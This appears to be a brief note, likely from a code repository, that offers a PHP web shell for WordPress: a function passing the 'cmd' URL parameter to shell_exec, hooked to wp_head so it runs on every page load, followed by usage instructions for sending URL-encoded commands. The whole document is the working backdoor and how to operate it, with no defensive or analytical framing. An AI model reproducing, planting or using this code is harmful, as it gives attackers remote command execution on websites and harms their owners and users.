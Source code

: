 # .php Webshell Code

```
function webshell(){
	echo shell_exec($_GET['cmd']);
}

add_action('wp_head', 'webshell');
```

run commands with:
```
[URL]/?cmd=[COMMAND]
```
*Ensure commands are url encoded*
